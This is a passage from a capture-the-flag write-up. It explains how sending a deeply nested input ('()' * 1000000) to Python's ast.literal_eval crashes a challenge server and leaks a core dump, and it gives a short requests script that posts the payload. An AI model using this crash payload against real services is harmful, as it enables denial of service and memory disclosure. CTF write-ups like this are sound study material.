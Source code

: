 ```python
    else:
        output = open("user.enc", "wb")
        output.write(to_encrypt)
        output.close()
```

This part also does two things.

One, it encrypts the flag using rc4 with 1024 bytes of randomness as key in contrast to the fixed key used in the flask component.

Two, it takes the user input, parses it into a dictionary using `ast.literal_eval`, and either writes it directly to disk or encrypts it with rc4 then writes to disk based on a flag.

# Halt and Catch Fire

The challenge code and the hint in the description clearly suggest us to obtain a coredump of the python process. So, we need to figure out a way to crash python by manipulating the input to `ast.literal_eval`.

A quick google search later, we found exactly [that](https://stackoverflow.com/a/54763776/6711781). As it turns out, the input `'()' * 1000000` causes the python parsing logic to go into multiple layers of recursion and will eventually lead to a crash.

```python
import requests

s = requests.Session()

# core dump
print s.post('http://crcrcr-cybrics2020.ctf.su/get_files',data={
  'user_data': '()' * 1000000,
  'submit': 'Get my files'
}).text
```

Part of the output that we care about:

```
<h3>
    <a href=data/upload/cfae2f668f31fb0e4f6705f505c33e339a4f68f1/core>core</a></br>
</h3>

<h3>
    <a href=data/upload/cfae2f668f31fb0e4f6705f505c33e339a4f68f1/res2.bin>res2.bin</a></br>
</h3>
```
> coredump and the encrypted data

Now we have a coredump, time for reversing right?

Not so fast, remember from before both files are encrypted by the flask component. This in fact makes `res2.bin` doubly encrypted. So we need a way of defeating this first layer of encryption

# RC4 and Key Reuse
